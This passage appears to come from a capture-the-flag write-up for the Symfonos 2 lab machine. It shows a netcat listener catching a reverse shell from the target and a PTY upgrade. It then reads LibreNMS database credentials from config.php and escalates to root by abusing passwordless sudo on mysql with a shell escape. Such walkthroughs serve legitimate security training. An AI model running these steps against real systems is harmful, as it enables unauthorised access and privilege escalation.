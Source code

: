 ```bash
root@kali:~$ nc -vlnp 1337
listening on [any] 1337 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.136] 36538
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
$ uname -a
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64 GNU/Linux
$ python -c 'import pty; pty.spawn("/bin/bash")'
cronus@symfonos2:/opt/librenms$ 
```

**MySQL Credentials**

Enumerating a little bit I find the MySQL access credentials from LibreNMS.

```bash
cronus@symfonos2:/opt/librenms$ head config.php
<?php
## Have a look in defaults.inc.php for examples of settings you can set here. DO NOT EDIT defaults.inc.php!

### Database config
$config['db_host'] = 'localhost';
$config['db_port'] = '3306';
$config['db_user'] = 'librenms';
$config['db_pass'] = 'VLby8dGg4rvw33sg';
$config['db_name'] = 'librenms';
$config['db_socket'] = '';
```

## Privilege Escalation
### MySQL Sudo Rights
Checking the sudo permissions for the current user I find that the mysql binary is possible run it as sudo without password, to escalate privileges we just log in to mysql with the credentials **librenms:VLby8dGg4rvw33sg** and abuse the mysql feature of executing commands, so we invoke a hash and get root.

```bash
cronus@symfonos2:/opt/librenms/html$ sudo -l                                                                                                                       
Matching Defaults entries for cronus on symfonos2:                                                                                                                 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                         
                                                                                                                                                                   
User cronus may run the following commands on symfonos2:                                                                                                           
    (root) NOPASSWD: /usr/bin/mysql

cronus@symfonos2:/opt/librenms/html$ sudo /usr/bin/mysql -u librenms -p              
Enter password: VLby8dGg4rvw33sg
MariaDB [(none)]> \! bash
root@symfonos2:/opt/librenms/html# id
uid=0(root) gid=0(root) groups=0(root)
```
